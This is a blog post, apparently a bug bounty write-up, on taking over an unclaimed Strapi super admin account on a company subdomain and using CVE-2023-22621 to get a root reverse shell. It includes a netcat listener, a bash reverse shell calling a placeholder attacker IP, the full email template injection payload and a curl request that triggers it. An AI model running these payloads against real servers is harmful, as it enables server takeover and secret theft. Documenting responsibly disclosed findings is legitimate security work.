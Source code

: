 ```yaml
---
title: "Remote code execution in a billion-dollar publicly traded company"
date: 2024-02-10T21:43:57+08:00
author: ted
draft: false
thumbnail: https://tedmdelacruz.github.io/strapi-rce-thumbnail.jpg
---
```


There are 4 things that need to happen in order to find [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) in the wild:
 
- You need to find a website that is powered by [Strapi](https://strapi.io).
- The _super admin_ for this website, _somehow_, **has not been claimed yet**.
- The version of Strapi should be _at least_ **4.5.5 and below**.
- No other hacker had _somehow_ seen any of the three aforementioned scenarios first.

The stars have aligned in my favor, and with this [CVE](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures), I managed to fully take over one of the websites of a **billion-dollar company listed on the New York Stock Exchange**.

And I happen to be invited to their private [bug bounty program](https://en.wikipedia.org/wiki/Bug_bounty_program).

# Reconnaissance

I have a server that pings me of new subdomains of this company every 5pm Manila time so I can check them out after work.

Usually I don't find anything in my probes, and this one: **strapi.[redacted].com** also didn't trigger any alarms at first.
My automations pinged me about the subdomain of this website around early December 2023, but this website caught my attention during a manual inspection of the company assets that I did around early February 2024.

I couldn't believe it at first, but the _super admin_ registration for this website was open. And _somehow_, no other hacker had seen this before me:

![Admin Registration](/strapi-rce-admin.PNG)

Realizing this was nothing short of exhilarating, since it’s been months since I got a paid bug bounty.

# Escalation

Claiming the super admin of a website is nice and dandy, but like most other security researchers, I asked myself: "How can I escalate this to something even more severe?".

The next step was obvious; I googled 'strapi cve'. One particular CVE instantly caught my attention: **[CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621)** which allows for an authenicated user to execute the highly coveted **[_remote code execution_](https://en.wikipedia.org/wiki/Arbitrary_code_execution).**

The CVE ticks all of the boxes:
- You need to have super admin access (I got that) ✔
- The version of Strapi should be 4.5.5 and below (This website is on Strapi v3.6.0) ✔

# Exploitation

The CVE allows for a remote code execution via a [reverse shell](https://wiki.ubuntu.com/ReverseShell), which requires an attacker server waiting for incoming TCP connection from a victim server.

## Preparing the attacker server

I whipped up a small Digital Ocean droplet and using [netcat](https://en.wikipedia.org/wiki/Netcat) I had it listen to incoming TCP connections in port `1234`:

```sh
$ nc -lvnp 1234
```

- `-l` Instructs `netcat` to listen for incoming TCP connection rather than initiating a connection to a remote host.
- `-v` Produces more verbose output.
- `-n` Toggles `netcat` to not do any DNS or service lookups.
- `-p` Specifies the port to listen to.

## Executing the reverse shell payload

The reverse shell payload that worked for me after initial tests in my local network was the following:

```sh
bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'
```

Combining this with the NodeJs exploit described in the CVE, we get the following payload:

```js
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/bash","args":["/bin/bash","-c","bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

Now, [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) exploits an email template bypass in Strapi. Simply put, it runs when an attempt to send an email is sent. The initial configuration of Strapi allows admins to update the email confirmation template. This is where the payload is saved:

![Strapi RCE payload](/strapi-rce-payload.PNG)

## Spawning a shell as `root` in the compromised server

This exploit runs when a confirmation email is sent, so an API call that registers a new user to Strapi in order to execute the reverse shell is necessary. This is a basic cURL command for that purpose:

```sh
$ curl -vvv -X POST -H 'Content-Type: application/json' -d '{"email":"tedminfosec+rce1@gmail.com", "username":"rcetrigger1", "password": "Test1234!"}' https://strapi.[redacted].com/auth/local/register/
```

Upon execution of the cURL command, Strapi attempts to validate the email template. The exploit then takes advantage of a template validation bypass and runs the reverse shell payload via `node`. The reverse shell then initiates a TCP connection to my attacker server, which spawns a `bash` session.

Now, the attacker machine has logged in to the server as `root`, **giving me total control of the server**:

```sh
root@[redacted]:/home/[redacted]/project/strapi# ls
ls
api    config      favicon.ico   package.json  README.md
build  extensions  node_modules  public        yarn.lock
```

In order to prove the RCE, I left an inconspicuous text file in the server at `/root/tedminfosec.txt`:

```sh
root@[redacted]:/home/[redacted]/project/strapi# cat /root/tedminfosec.txt
hello from tedminfosec@wearehackerone.com
```

# Impact

Without disclosing too much about the compromised server, it contains highly sensitive keys and secrets that could have allowed a malicious actor to pivot to other, more sensitive assets in the company's internal network.

The malicious actor could have done more than just defacing a website or use it to launch phishing campaigns.

Since privilege escalation at this point would break the _rules of engagement_, I decided to stop testing from there.

# Responsible disclosure

Once that's done, I took my time to write a detailed vulnerability report and submitted it to the bug bounty program. It was triaged as **Critical**:

![Strapi RCE triage](/strapi-rce-triage.jpg)

Now that's how I compromised a server of a company worth more than a billion dollars.
